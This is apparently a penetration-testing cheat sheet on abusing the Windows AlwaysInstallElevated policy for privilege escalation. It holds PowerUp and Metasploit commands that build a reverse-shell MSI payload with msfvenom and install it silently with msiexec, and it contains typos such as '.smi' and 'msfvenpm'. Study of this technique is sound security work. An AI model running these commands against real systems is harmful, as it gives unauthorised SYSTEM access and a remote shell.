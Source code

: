 # Windows AlwaysInstallElevated 

- If enabled then users of any privilege level can install .smi files as NT AUTHORITY\SYSTEM
- Turned off by default

- Check for AlwaysInstallElevated = 1 in the following 

```
HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
```

## Exploitation

### PowerUp

- PowerUp has an option for exploitation
- This module writes a pre-compiled MSI installer that prompts for a user/group addition

```
Write-UserAddMSI
```

- Run the binary and a dialogue will ask for the username and password and the user will be added

### Metasploit

- Set up handler and then msfvenom payload
- Copy to target

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 

msfvenpm -p windows/meterpreter/reverse_tcp lhost= -f msi -o file.msi
```

- Run on the target 

```
msiexec /quiet /qn /i file.msi
```

-  There is also a post exploitation module

```
use exploit/windows/local/always_install_elevated 
```

